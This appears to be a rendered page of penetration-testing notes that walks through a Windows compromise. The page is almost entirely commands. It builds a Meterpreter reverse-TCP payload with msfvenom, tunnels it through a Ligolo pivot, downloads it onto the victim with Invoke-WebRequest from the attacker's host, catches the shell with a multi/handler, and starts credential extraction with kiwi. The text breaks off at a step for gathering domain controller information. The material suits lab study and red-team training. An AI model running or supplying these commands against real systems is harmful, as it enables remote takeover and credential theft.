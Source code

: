 ## Persistence Techniques

### Upload Payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.98.15 lport=1234 -f exe -o rev.exe
```

### On Pivot Machine

```bash
ssh privilege@192.168.80.10
./agent -connect 10.10.200.23:11601 -ignore-cert
```

### On Attacker:

```bash
ligolo-proxy -selfcert
start
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4321
```

### Upload to Victim

```powershell
powershell
Invoke-WebRequest http://192.168.98.15:1237/payloads.exe -OutFile C:\Users\corpmngr\Downloads\payloads.exe
cd C:\Users\corpmngr\Downloads
```

### Start Handler on Kali

```bash
msfconsole
use exploit/multi/handler
set lhost 0.0.0.0
set lport 4321
set payload windows/x64/meterpreter/reverse_tcp
run
```

### Execute Payload on Victim

```powershell
.\payloads.exe
```

---

### Lateral Movement & Privilege Escalation to Parent

1. Extract credentials using `creds_all` (meterpreter / kiwi).
2. Get DC info:
